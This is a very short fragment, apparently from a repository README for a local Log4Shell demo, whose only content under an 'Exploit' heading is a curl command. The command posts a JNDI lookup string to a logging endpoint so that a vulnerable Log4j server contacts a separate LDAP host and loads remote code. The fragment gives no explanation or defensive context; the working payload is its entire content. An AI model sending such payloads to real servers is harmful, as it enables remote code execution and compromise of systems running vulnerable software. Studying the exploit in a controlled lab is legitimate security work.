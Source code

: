 ## Exploit
```curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log```
